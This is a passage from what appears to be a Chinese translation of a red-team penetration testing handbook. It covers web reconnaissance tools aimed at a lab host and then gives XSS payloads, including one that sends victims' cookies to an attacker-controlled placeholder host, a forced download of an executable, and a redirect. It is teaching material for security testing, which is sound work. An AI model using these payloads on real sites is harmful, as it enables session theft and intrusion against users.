 ![](../images/chapter_3/3-5.png)

盲目攻击网站之前了解目标应用程序可以帮助你提供更好的思路。这也有助于入侵可能有 WAF 的目标站点，允许你使用更多的攻击手法。

### 网络探测
在之前的书中，我们详细介绍了如何使用 Burp Suite 以及如何对站点进行渗透测试。我们将跳过很多设置基础知识，并将更多精力放在攻击网站上。

在这一点上，我们将假设你已经设置好了 Burp Suite（免费或付费），并且你使用的是本书的 Kali 镜像。一旦我们了解了底层系统，我们就需要识别所有端点。我们仍然需要运行与之前相同的探测工具。

* [Burp Suite](https://portswigger.net/burp)
    * 爬虫：在免费和付费版本中，Burp Suite 都有一个很棒的爬虫工具。
    * 内容探测：如果你使用的是付费版本的 Burp Suite，那么最受欢迎的探测工具之一就是 Discover Content。这是一个智能高效的工具，可以查找目录和文件。你还可以为扫描指定多种不同的配置。
    * 主动扫描：运行所有参数的自动漏洞扫描并测试多个 Web 漏洞。
* [OWASP ZAP](http://bit.ly/2IVNaO2)
    * 类似于 Burp，但完全开源和免费。具有类似的探测和主动扫描功能。
* Dirbuster
    * 一个很久以前就被开发出的旧工具，用于发现 Web 应用程序的文件/文件夹，但现在仍然可以顺利的完成工作。
    * 目标网址：http://chat:3000 
    * 字典：
        *  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
* [GoBuster](https://github.com/OJ/gobuster)
    * 非常轻量级、快速的目录和子域名爆破工具
    * gobuster -u http://chat:3000 -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -s 200,301,307 -t 20

你的字典列表非常重要。我最喜欢使用的一个汇总的字典列表是一个名为 raft 的旧字典，它是许多开源项目的集合。你可以在这里找到这些和其他有价值的字典列表：https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content （已包含在本书的 Kali 镜像中）。

现在既然我们已经完成了概述，让我们进行一些攻击吧。从红队的角度来看，我们正在寻找可以主动攻击的漏洞，并为我们提供最大的帮助。如果我们正在进行评估或渗透测试，我们可能会报告漏洞扫描程序中的 SSL 问题，默认 Apache 页面或其他漏洞扫描程序发现的不可利用的漏洞等。但是，在我们的红队工作中，我们可以完全忽略这些，并专注于能使我们获得高级访问权限，shell 或 转储 PII 的攻击。

### XSS 跨站脚本攻击
在这一点上，我们都曾经见过并利用过跨站点脚本攻击（XSS）。使用传统的 XSS 攻击测试网站上的每个变量的方式：<script>alert(1)</script>，对于漏洞赏金平台来说可能很有用，但我们可以做更多吗？我们可以使用哪些工具和方法来更好地利用这些攻击？

我们都知道 XSS 攻击是客户端攻击，允许攻击者创建特定的 Web 请求从而将恶意代码注入响应中。这通常可以通过客户机和服务器端的适当输入验证来修复，但这绝不是那么容易。为什么这么说？因为 XSS 漏洞由多种原因造成的。从编码不规范到不理解框架，有时候应用程序变得过于复杂，就很难理解一个输入点的安全性。

因为仅仅弹窗确实没有真正的危害，让我们从一些基本类型的 XSS 攻击开始：

* Cookie 窃取XSS：
```HTML
<script>document.write('<img src="http//<YourIP>/Stealer.php?cookie='%2B document.cookie %2B '"/>');</script>
```
* 强制下载文件：
```HTML
<script>var link = document.createElement('a'); link.href ='http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = '';document.body.appendChild(link); link.click();</script>
```
* 重定向用户：
```HTML
<script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>
```
* 其他脚本以启用键盘记录器，拍照等：
    *  http://www.xss-payloads.com/payloads-list.html?c#category=capture
